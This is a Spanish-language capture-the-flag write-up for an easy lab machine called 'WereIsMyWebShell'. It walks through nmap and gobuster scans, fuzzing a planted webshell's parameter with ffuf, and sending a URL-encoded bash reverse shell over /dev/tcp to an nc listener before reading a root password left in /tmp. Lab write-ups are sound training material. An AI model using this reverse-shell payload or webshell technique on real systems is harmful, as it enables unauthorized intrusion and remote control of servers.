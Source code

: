 # Máquina WereIsMyWebShell

---

Dificultad -> Facil

---

Primero realizamos un nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Solo encontramos el puerto 80 asi que accedo desde el navegador

![](assets/2025-10-26-22-50-42-image.png)

Se puede ver una simple pagina web sobre una academia de ingles pero si leemos todo, abajo del todo pone que guarda un secreto en /tmp informacion que nos puede servir en un futuro

![](assets/2025-10-26-22-51-52-image.png)

No encuentro nada más asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/server-status        (Status: 403) [Size: 275]
```

Encuentro /warning.html y /shell.php, si entro a warning, sale un texto que dice que la web ya ha sido atacada y que la webshell tiene un parametro desconocido 

![](assets/2025-10-26-22-54-59-image.png)

Para encontrar el parametro que falta en shell.php, utilizo ffuf filtrando por palabras y me encuentra el parametro parameter

```shell
ffuf -u http://172.17.0.2/shell.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 0
```

Accedo a a shell.php con el parametro y en efecto es una webshell

![](assets/2025-10-26-22-57-56-image.png)

Le introduzco en el parametro una reverse shell codificada mientras escucho desde mi maquina

http://172.17.0.2/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4444%200%3E%261%22

```shell
nc -lvnp 4444
```



Una vez dentro, recuerdo el secreto de /tmp asi que me dirijo ahi y encuentro un secreto.txt

![](assets/2025-10-27-20-16-05-image.png)

Al mirar su contenido encuentro la contrasñea de root con la que acabo consiguiendo root en esta máquina.

![](assets/2025-10-27-20-17-02-image.png)
